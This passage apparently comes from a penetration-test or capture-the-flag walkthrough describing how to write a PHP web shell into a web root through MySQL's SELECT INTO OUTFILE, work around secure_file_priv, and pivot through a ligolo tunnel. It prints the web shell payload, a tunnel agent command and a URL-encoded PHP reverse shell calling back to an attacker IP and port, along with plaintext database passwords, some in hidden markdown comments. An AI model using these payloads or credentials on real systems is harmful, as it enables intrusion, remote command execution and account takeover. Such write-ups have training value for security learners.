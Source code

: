     mysql -u admin -h 192.168.100.1 -p -e "select '<?php if(isset($_GET[\'c\'])) {system($_GET[\'c\']);} ?>' INTO OUTFILE '/var/www/wordpress/ws.php';"
    ...
    Enter password: !123SecureAdminDashboard321!
    ERROR 1290 (HY000) at line 1: The MySQL server is running with the --secure-file-priv option so it cannot execute this statement

But what happened here? It seems that this flag prevents us to write to a the path we specified. At this point is necessary to connect to the remote Mysql server form the attacker machine. 
This is easy (you must have mysql client installed on the attacker machine) since we have the ligolo tunnel in place. In case you stopped the agent on the victim:
restart the agent:

    /tmp/agent -connect 10.50.74.35:11601 -ignore-cert

Then from the attacker machine:

    mysql -u admin -h 192.168.100.1 -p 
    Enter password: 
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    ...

Then we can inspect the variable related to the flag:

    MySQL [(none)]> SHOW VARIABLES LIKE "secure_file_priv";
    +------------------+----------------+
    | Variable_name    | Value          |
    +------------------+----------------+
    | secure_file_priv | /var/www/html/ |
    +------------------+----------------+
    1 row in set (0.078 sec)

So our shell must be saved according to this value, so this is the working payload:

    MySQL [(none)]> select '<?php if(isset($_GET[\'c\'])) {system($_GET[\'c\']);} ?>' INTO OUTFILE '/var/www/html/ws.php';
    Query OK, 1 row affected (0.072 sec)

Then we can access the web shell using the following URL:

    http://192.168.100.1/ws.php?c=whoami

<b>Oops! That page can’t be found.</b>
Damn, so I tried with the other http port available on the server:

    http://192.168.100.1:8080/ws.php?c=whoami

This time it worked:

    www-data

At this point we can get a shell using the same payload we used before (remember to start a nc listener on the attacker machine on port 1222):

     http://192.168.100.1:8080/ws.php?c=php%20-r%20%27%24sock%3Dfsockopen%28%2210.50.74.35%22%2C1222%29%3Bexec%28%22%2Fbin%2Fbash%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27


[//]: # (admin:DBManagerLogin!)
[//]: # (Nothingtoworry!)